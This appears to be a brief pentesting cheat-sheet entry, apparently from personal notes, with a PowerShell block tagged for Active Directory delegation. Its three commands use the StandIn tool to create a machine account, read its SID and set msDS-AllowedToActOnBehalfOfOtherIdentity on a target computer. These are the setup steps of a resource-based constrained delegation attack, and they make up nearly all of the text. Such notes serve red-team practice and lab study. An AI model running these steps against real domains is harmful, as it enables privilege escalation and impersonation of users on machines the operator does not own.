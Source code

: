 
```powershell
.\standin.exe --computer xcl --make # create new pc 

Get-ADComputer -Filter * | Select-Object Name, SID # get SID 

.\standin.exe --computer ResourceDC --sid <SID> # set msDS-AllowedToActOnBehalfOfOtherIdentity to true
```

--- 
Tags: #AD #delegation #standin